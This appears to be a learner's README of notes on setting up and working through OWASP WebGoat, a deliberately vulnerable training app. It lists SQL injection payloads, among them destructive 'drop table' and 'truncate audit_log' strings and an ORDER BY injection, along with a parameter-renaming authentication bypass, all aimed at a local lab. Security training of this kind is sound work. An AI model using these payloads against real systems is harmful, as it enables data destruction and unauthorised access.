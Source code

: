 # web goat
owasp demo site

# installation

* download from git:
```
https://github.com/WebGoat/WebGoat
git clone git@github.com:WebGoat/WebGoat.git
```

* install maven in kali linux
```
https://tutorialforlinux.com/2017/04/13/how-to-install-latest-apache-maven-on-kali-linux-easy-guide/
```
* install by using mvn
```
source $HOME/.bashrc
mvn clean install

Now let's start by compiling the project.

cd WebGoat
git checkout develop
mvn clean install
Now we are ready to run the project. WebGoat 8.x is using Spring-Boot.

mvn -pl webwolf spring-boot:run
```

* run stand-alone :

```
download
https://github.com/WebGoat/WebGoat/releases
then
java -jar webgoatxxx.jar
then:
http://localhost:8080/WebGoat/login

```

# attack techniques:

I will try to practice test first then categorize them later

## General

* http/s basics: learn to intercept request by using zap/burpsuite

```
Go General/HTTP basics
Use burp suite to capture get/post method then edit and forward

result:
POST /WebGoat/HttpBasics/attack2 HTTP/1.1
magic_num=36&answer=&magic_answer=36

read the magic_numb then edit it

Identify type of request: post/get
```

* http proxies: learn how to deploy proxy on zap/burpsuite

## injection flow
https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF

  1. sql injection
  * data manipulation language (select, insert, update)
  * data definition language (create, alter, drop)
  * data control language (grant, revoke)

* numeric injection

* combining sql injection techniques
  ```
  special characters
   - /*
    '*/:comment the remainder of the query
   - ; allow query chaining  ex: 'select * from users; drop table users;'
   - || allow string concatenate
   - union : 'Select id, text from news union all select name, pass from users'
   - joins
  ```
* blind sql injection
```
```

  2. examples:
```
- simple sql injection:
serName = Smith' or '1'='1
userName =' or 1=1 --
userID = 1234567 or 1=1
UserName = Smithâ€™;drop table users; truncate audit_log;--

- advance sql injection:
Smith'; select * from user_system_data where '1'='1

-blind sql injection:
https://my-shop.com?article=4
>> SELECT * from articles where article_id = 4

```

  3. practices:
  * simple sql injection
```
http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjection.lesson/6
input: Smith' or '1'='1
then submit

http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjection.lesson/7
input : 123456 or 1=1
then submit

```
  * advance sql injection
  ```
  http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjectionAdvanced.lesson/2
  6.a input: Smith'; select * from user_system_data where '1'='1
  105, dave, dave, ,
  6.b input: dave
  ```

  * combine all: burpsuite: could user repeater module to input data to save time to make request
  ```
  http://localhost:8080/WebGoat/start.mvc#lesson/SqlInjectionAdvanced.lesson/4
  tried : http://sechow.com/bricks/docs/login-1.html but failed

  ```

  4. sql injection mitigations

  ```
  use order by
  http://192.168.60.148:8080/WebGoat/SqlInjection/servers?column=id
  edit query:
  column=(case when (true) then hostname else id end)

  input ip address: 192.168.6.4
  click submit
  ```

## Authentication flows

### Authentication bypasses
https://henryhoggard.co.uk/blog/Paypal-2FA-Bypass
1. concept:
usually take advantage of some flaw in the configuration or logic

* hidden inputs
* removing parameters
* forced browsing

2. practices:
There are many ways to practice this:
check hidden account which comment in source
remove parameters/change parameters name

```
http://localhost:8080/WebGoat/start.mvc#lesson/AuthBypass.lesson/1
intercept the post method
secQuestion0=test&secQuestion1=test&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746

change the parameter name:
secQuestion3=test&secQuestion4=test&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746

magicly it passed
```

### JWT tokens (under development)
https://jwt.io/introduction/
